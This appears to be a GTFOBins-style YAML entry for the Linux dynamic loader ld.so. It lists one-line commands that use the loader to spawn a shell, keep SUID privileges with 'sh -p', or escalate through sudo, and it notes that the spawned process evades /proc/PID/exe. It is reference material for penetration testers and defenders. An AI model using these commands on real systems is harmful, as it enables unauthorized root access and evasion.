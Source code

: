```yaml
---
description: |
  `ld.so` is the Linux dynamic linker/loader, its filename and location might change across distributions. The proper path is can be obtained with:

  ```
  $ strings /proc/self/exe | head -1
  /lib64/ld-linux-x86-64.so.2
  ```
  It's worth noting that the spawned process doesn't get it's own pid and isn't exposed via `/proc/$PID/exe` on kernel 6.2.12-060212-generic as of 20230526 see https://shyft.us/posts/20230526_linux_command_proxy.html for more information. 
functions:
  shell:
    - code: /lib/ld.so /bin/sh
  suid:
    - code: ./ld.so /bin/sh -p
  sudo:
    - code: sudo /lib/ld.so /bin/sh
---
```

